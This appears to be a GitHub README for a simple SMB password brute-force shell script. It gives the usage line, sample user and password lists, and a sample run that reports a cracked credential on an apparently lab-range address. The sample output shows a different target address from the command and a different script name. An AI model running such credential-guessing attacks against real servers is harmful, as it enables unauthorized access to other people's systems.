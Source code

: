 # VSSB
Very simple SMB brute force\
\
Some complex tool may fail sometimes.\
This script just tries to login via "smbclient".\
\
`usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123`
\
\
Considering the following file (containing a list of users):
\
```kali@kali:~/Desktop$ cat usrs.txt
pippo
fsmith
luca```
\
\and the following file (containing a list of passwords):
\
`kali@kali:~/Desktop$ cat pwds.txt`
\
`123456`
\
`sandro`
\
`omg123!!!`
\
`Thestrokes23`  
\
`pippo`
\
`password`
\
you can use the scripts as follows:
`
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
`

